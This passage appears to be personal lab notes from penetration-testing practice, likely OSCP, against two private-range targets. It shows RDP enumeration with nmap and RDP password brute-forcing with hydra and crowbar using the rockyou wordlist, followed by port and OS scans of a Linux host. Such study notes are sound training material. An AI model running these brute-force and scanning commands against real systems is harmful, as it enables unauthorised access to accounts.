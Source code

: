 ```sh
nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 -T4 192.168.128.111
```
	PORT     STATE SERVICE 
	3389/tcp open  ms-wbt-server
	| rdp-enum-encryption: 
	|   Security layer  
	|     CredSSP (NLA): SUCCESS
	|     CredSSP with Early User Auth: SUCCESS 
	|_    RDSTLS: SUCCESS 


Go for a RDP bruteforce with hydra
Using `xhydra` to craft the command

```
hydra -s 3389 -V -l oscp -P /usr/share/wordlists/rockyou.txt -t 1 -W 1 192.168.128.111 rdp
```
Crashed out. More stable RDP bruteforcer I'm sure

Crowbar
```
crowbar -b rdp -s 192.168.128.111 -u oscp -C /usr/share/wordlists/rockyou.txt
```

## 192.168.128.124 - Linux
### Prep
Target IP  given

Set up a directory for the target and enter it
```sh
mkdir Target1-192.168.128.124
cd Target1-192.168.128.124
```

### Recon
Start with a quick open port scan
```sh
rustscan 192.168.128.124
```
	Open 192.168.128.124:22
	Open 192.168.128.124:111
	Open 192.168.128.124:135
	Open 192.168.128.124:445
	Open 192.168.128.124:2049
	Open 192.168.128.124:5357

Quick OS check
```sh
sudo nmap -O -Pn --top-ports 2000 -v -T5 192.168.128.124 -oN osType.nmap
```
